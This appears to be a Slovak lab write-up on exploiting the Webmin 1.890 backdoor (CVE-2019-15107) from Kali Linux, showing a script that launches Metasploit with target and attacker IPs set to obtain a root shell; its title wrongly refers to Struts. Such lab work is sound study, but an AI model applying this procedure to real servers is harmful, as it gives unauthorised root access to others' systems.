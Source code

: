 # Otestovanie zraniteľnosti Struts na Ubuntu 19.04

Webový ovládací panel Webmin slúži na správu systému Unix. Eliminuje potrebu ručne upravovať konfiguračné súbory
systému Unix, ako napríklad /etc/passwd, a umožňuje spravovanie systému z konzoly alebo vzdialene. Preto sa 
používa vo väčšine organizácií, kde sa používajú unixové servery. Útok CVE-2019-15107 fungoval ako *backdoor*, 
čiže bol zámerne umiestnený v roku 2018 a nájdený počas bezpečnostnej konferencie DEF CON 2019, keď výskumníci 
narazili na škodlivý kód.

Každý, kto vedel o existencii zraniteľnosti, mohol využiť *backdoor*, čím mal možnosť vykonávať príkazy 
s privilégiami *root*. Podľa Jamieho Camerona, autora webového ovládacieho panela Webmin, bol 
*backdoor* vložený do verzie 1.890. Následne boli nájdené ďalšie dve verzie s takmer identickým 
kódom, konkrétne verzie 1.900 a 1.920. Do skriptu `password\_change.cgi` bola pridaná zraniteľnosť. 

## Konfigurácia Ubuntu

Pre vytvorenie zraniteľného systému sme stiahli verziu
[ovládacieho panelu Webmin 1.890](https://sourceforge.net/projects/webadmin/files/webmin/1.890/) a nainštalovali ju.

## Konfigurácia Kali Linux 

Pre zaútočenie sme vložili súbor `set-msfconsole.rc` a `HACK.sh` na plochu distribúcie Kali. Útok spustíme otvorením konzoly a spustením príkazu: 

```shell
./Desktop/HACK.sh
```

`HACK.sh` nám otvorí v konzole nástroj msfconsole pomocou súboru `set-msfconsole.rc`. V ňom sa nastaví IP zraniteľnej mašiny pomocou 
`set RHOSTS 192.168.50.40`. Ostáva nám nastaviť IP útočníka `set LHOST 192.168.50.41` a spustiť útok. 

Keďže sme využili backdoor a ovládací panel Webmin bežal pod privilégiami *root*, dostali sme sa do systému s privilégiami *root*. 
